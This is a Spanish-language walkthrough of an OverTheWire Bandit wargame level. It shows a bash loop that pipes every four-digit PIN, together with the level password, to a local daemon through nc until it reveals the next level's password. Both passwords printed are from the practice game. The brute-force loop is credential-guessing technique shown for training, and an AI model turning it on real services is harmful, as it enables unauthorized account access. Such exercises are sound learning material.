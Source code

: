 ## Objetivo 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución
```bash
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ echo {0000..0099}
0000 0001 0002 0003 0004 0005 0006 0007 0008 0009 0010 0011 0012 0013 0014 0015 0016 0017 0018 0019 0020 0021 0022 0023 0024 0025 0026 0027 0028 0029 0030 0031 0032 0033 0034 0035 0036 0037 0038 0039 0040 0041 0042 0043 0044 0045 0046 0047 0048 0049 0050 0051 0052 0053 0054 0055 0056 0057 0058 0059 0060 0061 0062 0063 0064 0065 0066 0067 0068 0069 0070 0071 0072 0073 0074 0075 0076 0077 0078 0079 0080 0081 0082 0083 0084 0085 0086 0087 0088 0089 0090 0091 0092 0093 0094 0095 0096 0097 0098 0099
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$


```


## Notas
for i in {0000..9999} con este comando se crea una secuencia de 0 hasta 9999 con 4 digitos y se almacena en i para pasarlo junto con la contraseña al puerto 30002

## Referencias
manual de referencia de cron
